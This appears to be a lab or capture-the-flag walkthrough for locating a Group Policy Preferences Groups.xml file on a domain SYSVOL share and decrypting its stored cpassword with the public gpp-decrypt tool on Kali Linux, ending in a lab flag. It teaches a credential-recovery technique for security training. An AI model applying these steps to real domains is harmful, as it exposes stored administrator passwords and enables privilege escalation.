 # 🛠️ GPP Password Extraction and Decryption (Windows Client + Kali Linux)

## 🎯 Objective

You have access to a **Windows domain-joined client**, and afterwards you're using **Kali Linux** to decrypt the stored GPP password. Your task:

1. Find the `Groups.xml` file on the client.
2. Transfer it to Kali.
3. Decrypt the password using `gpp-decrypt`.

---

### 1. Log in to the Windows client machine.
### 2. Open **File Explorer** and go to:
`\\sigismund.kuttenberg\SYSVOL\sigismund.kuttenberg\Policies\{3182F340-016D-11D2-945F-00C04FB984F9)\MACHINE\Preferences\Groups`

- The file should look like this

![image](https://github.com/user-attachments/assets/81ca2dcf-b066-4c6b-a73c-89c152f8e6aa)

- We only need the part which includes the cpassword, you might have to type it manually to extract it this time

### 3. Decrypting the cpassword (https://github.com/t0thkr1s/gpp-decrypt/blob/master/README.md)
- We are using t0thkr1s's gpp-decrypt script. Here are quick steps for installing on Kali Linux:

```
# Step 1: Install dependencies
pip3 install pycryptodome colorama

# Step 2: Clone the tool
git clone https://github.com/t0thkr1s/gpp-decrypt
```

Finally we run the tool
```
cd gpp-decrypt

python3 gpp-decrypt.py -c '<encrypted-password-here>'
```

- If all is done correctly, you should get a response from the script that the decrypted password was "flag> Kuttenberg"

## References
- https://github.com/t0thkr1s/gpp-decrypt/blob/master/README.md
- https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp
